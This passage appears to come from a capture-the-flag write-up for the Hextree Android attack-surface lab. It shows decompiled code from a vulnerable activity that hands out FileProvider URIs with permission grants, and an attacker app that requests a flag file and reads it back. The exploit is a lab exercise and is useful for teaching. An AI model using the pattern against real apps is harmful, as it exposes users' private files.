 ```java
        Uri uriForFile2 = FileProvider.getUriForFile(this, "io.hextree.files", new File(getFilesDir(), "secret.txt"));
        Intent intent2 = new Intent();
        intent2.setData(uriForFile2);
        intent2.addFlags(3);
        setResult(-1, intent2);
    }

```
- Read the flag:
```java
Button button = findViewById(R.id.click);
button.setOnClickListener(v -> {
    Intent intent = new Intent();
    intent.putExtra("filename", "flags/flag34.txt");
    intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag34Activity");
    startActivityForResult(intent, 42);
});

    

    @Override
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        if (requestCode == 42) { // Matching the requestCode
            try {
                InputStream inputStream = getContentResolver().openInputStream(data.getData());
                BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
                String line;

                while ((line = reader.readLine()) != null) {
                    Log.d("File", line);
                }
            }
            catch (IOException e){
            }            
            
        }
    }
```

### Insecure root-path FileProvider Config
```java
// The same Vulnerable class
  public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        String stringExtra = getIntent().getStringExtra("filename");
        if (stringExtra != null) {
            prepareFlag(this, stringExtra);
            Uri uriForFile = FileProvider.getUriForFile(this, "io.hextree.root", new File(getFilesDir(), stringExtra));
            Intent intent = new Intent();
            intent.setData(uriForFile);
            intent.addFlags(3);
            setResult(0, intent);
            return;
        }
        Uri uriForFile2 = FileProvider.getUriForFile(this, "io.hextree.root", new File(getFilesDir(), "secret.txt"));
        Intent intent2 = new Intent();
        intent2.setData(uriForFile2);
        intent2.addFlags(3);
```